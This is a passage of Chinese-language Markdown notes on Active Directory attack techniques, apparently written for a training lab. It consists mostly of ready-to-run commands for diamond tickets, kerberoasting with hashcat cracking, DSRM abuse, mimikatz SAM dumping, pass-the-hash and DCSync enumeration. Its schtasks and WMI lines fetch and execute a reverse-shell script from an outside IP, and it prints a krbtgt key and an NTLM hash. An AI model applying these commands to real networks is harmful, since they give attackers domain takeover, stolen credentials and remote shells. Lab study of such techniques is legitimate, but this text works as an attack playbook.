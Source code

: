 				- `LDAP`: dcsyncs
			- `/` 後面盡量使用 FQDN
		- Windows 2019 (含) 後不能使用 FQDN，需要單純使用 hostname
		- RC4 是 Computer Account (後面有 `$`) 的 Hash
		- SID 是 Domain SID
	- 測試 HOST Service可以用 `schtasks /S dcorp-dc`
		- `schtasks /create /S dcorp-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "User365" /TR "powershell -c iex(iwr http://172.16.99.65:6666/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"`
		- `schtasks /Run /S dcorp-dc /TN User365`
	- 測試 CIFS 可以用 `dir \\dcorp-dc\C$`
	- 測試 WMI 需要 `HOST` + `RPCSS`
		- `Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell -c iex(iwr http://172.16.99.65:6666/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"`
- Diamond Ticket
	- `.\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`
		- krbkey: krbtgt 的 aes256
		- ticketuser 要偽造的 user，通常用 administrator 就好
		- ticketuserid: 500 是 administrator 的 userid
		- groups: 512 是 domain admins 的 gid
- Kerberosting
	- Get SPN in domain
		- `Get-DomainUser -SPN | Select name, serviceprincipalname`
	- Export ST
		- `.\Rubeus.exe kerberoast /format:hashcat /spn:MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local /outfile:hash.txt` (指定 SPN)
		- `.\Rubeus.exe kerberoast /format:hashcat /outfile:hash.txt` (ALL)
	- 爆破
		- `hashcat -m 13100 hash.txt 10k-worst-pass.txt`
	- 密碼是 SPN 所屬的 User 的密碼
## Abuse DSRM (Directory Services Restore Mode)
- 先取得 Domain Admin 後登進去 DC
	- 預設 `reg query HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior /t reg_dword` 應該是沒有值的
	- 手動設定成 2
		- `reg add HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior /t reg_dword /d 2`
	- 跑 mimikatz 取 DC 的 SAM 裡面的 Administrator (這是 Local Admin) 並不是 DC Sync 的 Admin
		- `Invoke-mimi dcorp-dc.dollarcorp.moneycorp.local -Command "lsadump::sam"`
	- 本地 PTH，記得 Domain 要設定為 DC 的 Host Name，並不是真正的 Domain Name
		- `privilege::debug`
		- `sekurlsa::pth /user:Administrator /domain:dcorp-dc /ntlm:a102ad5753f4c441e3af31c97fad86fd`
	- 開始使用，使用 hostname 或 FQDN 都可以
		- `dir \\dcorp-dc.dollarcorp.moneycorp.local\C$`
		- `dir \\dcorp-dc\C$`
		- `PsExec64.exe \\dcorp-dc cmd`
		- 但不能用 winrs
## ACL 
### DC Sync
- 需要三條 DACL
	- `DS-Replication-Get-Changes`
	- `DS-Replication-Get-Changes-All`
	- `DS-Replication-Get-Changes-In-Filtered-Set` 某些特定權限上需要，但很少見
- 尋找所有可以 DC Sync 的 User
```powershell
Get-DomainObjectACL -SearchBase "DC=dollarcorp, DC=moneycorp, DC=local" -SearchScope Base -ResolveGUIDS |
?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} |
```